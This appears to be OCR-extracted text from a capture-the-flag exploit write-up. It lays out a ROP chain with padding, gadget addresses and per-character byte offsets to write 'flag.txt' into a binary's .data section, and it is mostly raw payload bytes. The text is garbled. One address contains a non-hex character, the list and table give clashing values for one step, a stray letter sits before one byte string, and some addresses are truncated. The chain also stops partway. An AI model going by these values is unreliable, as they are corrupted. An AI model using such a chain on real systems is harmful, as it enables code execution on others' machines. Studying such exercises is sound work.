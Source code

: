 - `f_address - curr_al(0x0b) - 0x3ef2` -> `0x7ffff7bee42c`
- `l_address - curr_al(f) - 0x3ef2` -> `0x7ffff7beaaac`
- `a_address - curr_al(l) - 0x3ef2`  -> `0x7ffff7bea2fb`
- `g_address - curr_al(a) - 0x3ef2`  -> `0x7ffff7beab6d`
- `._address - curr_al(g) - 0x3ef2`  -> `0x7ffff7bea31a`
- `t_address - curr_al(.) - 0x3ef2`  -> `0x7ffff7beax1a`
- `x_address - curr_al(t) - 0x3ef2`  -> `0x7ffff7bea96e`
- `t_address - curr_al(x) - 0x3ef2`  -> `0x7ffff7bea2d0`

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `f_address - curr_al(0x0b) - 0x3ef2` | "\x2f\xa5\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdi`| "\xa3\x06\x40\x00\x00\x00\x00\x00" |
| `.data` | "\x28\x10\x60\x00\x00\x00\x00\x00"  |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `l_address - curr_al(f) - 0x3ef2` | "\xac\xaa\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `a_address - curr_al(l) - 0x3ef2` | "\xfb\xa2\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `g_address - curr_al(a) - 0x3ef2` | "\x6d\xab\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `._address - curr_al(g) - 0x3ef2` | "\x1f\xc9\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `t_address - curr_al(.) - 0x3ef2` | k"\x1a\xa3\xbe\xf7\xff\x7f\x00\x00" |